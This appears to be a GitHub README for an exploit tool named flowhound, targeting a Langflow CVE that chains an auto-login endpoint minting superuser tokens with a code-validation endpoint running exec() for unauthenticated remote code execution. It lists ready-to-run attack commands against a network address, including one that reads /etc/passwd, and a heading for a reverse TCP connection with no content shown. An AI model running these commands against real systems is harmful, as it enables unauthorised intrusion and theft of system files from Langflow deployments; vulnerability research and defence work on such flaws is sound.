




# CVE Description
**CVE Description:** Unauthenticated remote code execution vulnerability impacting Langflow that allows attackers to chain /api/v1/auto_login (mints SUPERUSER tokens to any network caller) with /api/v1/validate/code (executes user code via exec()) to achieve full RCE on default Langflow deployments.

**Impacted Versions:** Langflow versions 1.0.0 through 1.10.0


# Exploit Module

## Default Mode
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-9198
```




## Execute Bash Command
```bash
flowhound attack --url http://192.168.1.30:7860 --cve CVE-2026-9198 --command "cat /etc/passwd"
```




## Reverse TCP Persistent Connection



